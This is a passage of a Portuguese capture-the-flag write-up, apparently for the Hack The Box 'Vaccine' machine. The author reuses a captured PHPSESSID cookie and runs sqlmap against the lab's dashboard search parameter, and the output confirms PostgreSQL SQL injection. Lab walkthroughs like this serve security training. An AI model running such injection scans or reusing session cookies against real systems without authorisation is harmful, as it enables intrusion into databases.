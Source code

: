 Conseguimos autenticação com sucesso!!!

Ao analizar a página, temos uma tela de dashboard, onde podemos pesquisar por alguma coisa que ainda não está clara.

Porém, ao efetuar qualquer pesquisa, percebemos que a página utiliza um parâmetro `GET` na url, que provavelmente busca em uma fonte de dados, possívelmente um banco.

Podemos testar para SQLi (SQL Injection), mas como esta página só é carregada após o login, precisamos anotar o cookie da nossa sessão antes de tentar qualquer ferramente para testes.

Ao pressionar `F12` no navegador, no meu caso `Firefox`, vemos a barra de inspeção, ao clicarmos em `Storage`, podemos obter o cookie da sessão.

<img src="/htb/htb-vaccine-5.png">

Temos o cooke `PHPSESSID=u8mds2v44ve1kglnmg8s6l90d6`, vamos utilizar o `sqlmap` para testar SQLi.

```bash
┌──(hastur㉿hastur)-[~/Vaccine]
└─$ sqlmap -u 'http://10.10.10.46/dashboard.php?search=hastur' --cookie='PHPSESSID=u8mds2v44ve1kglnmg8s6l90d6'
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.5.8#stable}
|_ -| . [.]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:46:38 /2021-09-06/

[21:46:38] [INFO] testing connection to the target URL
[21:46:39] [INFO] testing if the target URL content is stable
[21:46:39] [INFO] target URL content is stable
[21:46:39] [INFO] testing if GET parameter 'search' is dynamic
[21:46:39] [WARNING] GET parameter 'search' does not appear to be dynamic
[21:46:40] [INFO] heuristic (basic) test shows that GET parameter 'search' might be injectable (possible DBMS: 'PostgreSQL')
[21:46:40] [INFO] testing for SQL injection on GET parameter 'search'
it looks like the back-end DBMS is 'PostgreSQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
for the remaining tests, do you want to include all tests for 'PostgreSQL' extending provided level (1) and risk (1) values? [Y/n] 
[21:46:46] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[21:46:48] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[21:46:48] [INFO] testing 'Generic inline queries'
[21:46:49] [INFO] testing 'PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)'
[21:46:50] [INFO] GET parameter 'search' appears to be 'PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)' injectable 
[21:46:50] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[21:46:50] [INFO] GET parameter 'search' is 'PostgreSQL AND error-based - WHERE or HAVING clause' injectable 
[21:46:50] [INFO] testing 'PostgreSQL inline queries'
[21:46:50] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
```